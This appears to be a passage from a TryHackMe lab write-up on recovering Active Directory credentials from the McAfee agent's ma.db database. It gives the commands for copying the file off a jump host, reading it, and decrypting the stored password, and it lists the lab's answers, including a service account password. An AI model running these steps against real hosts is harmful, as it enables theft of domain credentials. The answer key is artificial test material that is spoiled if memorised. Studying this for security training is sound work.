 ## Configuration Files

* Configuration files often include AD creds; enumeration scripts and tools are used to automate the process of finding creds.

* In this task, we will recover creds from McAfee Enterprise Endpoint Security, which embeds creds used during installation to connect back to orchestrator in a file ```ma.db```.

* We can use SSH access on THMJMP1:

```shell
cd C:\ProgramData\McAfee\Agent\DB

dir
#ma.db

#we can copy ma.db to our machine via scp
#on attacker machine
scp thm@THMJMP1.za.tryhackme.com:C:/ProgramData/McAfee/Agent/DB/ma.db .

#we can use sqlitebrowser to read db file
sqlitebrowser ma.db

#note down the values given in task accordingly

#now using given python script
#we can try to decrypt the AUTH_PASSWD value
unzip mcafeesitelistpwddecryption.zip

cd mcafee-sitelist-pwd-decryption-master

python2 mcafee_sitelist_pwd_decrypt.py jWbTyS7BL1Hj7PkO5Di/QhhYmcGj5cOoZ2OkDTrFXsR/abAFPM9B3Q==
#this provides us the decrypted password
```

```markdown
1. What type of files often contain stored credentials on hosts? - Configuration files

2. What is the name of the McAfee database that stores configuration including credentials used to connect to the orchestrator? - ma.db

3. What table in this database stores the credentials of the orchestrator? - AGENT_REPOSITORIES

4. What is the username of the AD account associated with the McAfee service? - svcAV

5. What is the password of the AD account associated with the McAfee service? - MyStrongPassword!
```
